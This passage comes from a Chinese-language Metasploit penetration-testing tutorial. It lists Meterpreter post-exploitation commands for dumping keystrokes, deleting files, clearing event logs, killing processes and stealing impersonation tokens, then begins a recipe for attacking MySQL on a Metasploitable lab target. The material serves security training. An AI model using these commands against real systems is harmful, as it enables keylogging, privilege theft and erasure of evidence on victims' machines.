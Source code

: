     ```
    keyscan_dump 
    ```

4.  停止记录目标系统中用户的击键顺序。

    ```
    keyscan_stop 
    ```

5.  删除目标系统中的文件。

    ```
    del exploited.docx 
    ```

6.  清除目标系统中的事件日志。

    ```
    clearav 
    ```

7.  展示运行进程的列表。

    ```
    ps
    ```

8.  杀掉受害者系统的指定进程，使用`kill [pid]`语法。

    ```
    kill 6353
    ```

9.  尝试偷取目标系统上的模拟令牌。

    ```
    steal_token 
    ```

### 工作原理

我们以通过 Armitage，MSFCLI 或 MSFCONSOLE 预先建立的 Meterpreter 会话来开始。之后我们在目标机器上运行了多种命令。

### 更多

当我们对基于 Linux 主机使用 Meterpreter 的时候，我们能够在它上面运行 Linux 命令，就像我们操作这台机器那样。

## 6.6 Metasploitable MySQL

这个秘籍中，我们会探索如何使用 Metasploit 来攻击 MySQL 数据库服务器，使用 MySQL 扫描器模块。MySQL 是许多网站平台的选择，包括 Drupal 和 Wordpress，许多网站当前正在使用 MySQL 数据库服务器。这会使它们更容易成为 Metasploitable MySQL 攻击的目标。

### 准备

需要满足下列要求：
